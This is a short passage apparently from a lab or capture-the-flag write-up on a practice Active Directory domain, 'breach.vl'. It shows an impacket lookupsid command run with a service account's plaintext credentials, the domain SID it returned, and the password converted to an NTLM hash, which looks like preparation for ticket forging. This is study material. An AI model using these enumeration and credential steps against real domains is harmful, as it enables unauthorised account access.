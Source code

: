 We got the Domain SID from impacket’s lookupsid:

```
impacket-lookupsid breach.vl/svc_mssql:'Trustno1'@breach.vl
```

```
[*] Domain SID is: S-1-5-21-2330692793-3312915120-706255856
```

<img src="attachments/9113bfd9e67ca54399eed433ba01c7ff.png" />

We converted the plaintext password to NTLM using a browser-based tool.

```
69596C7AA1E8DAEE17F8E78870E25A5C
```

<img src="attachments/51348b63a84a6fc6733f74090b93d887.png" />
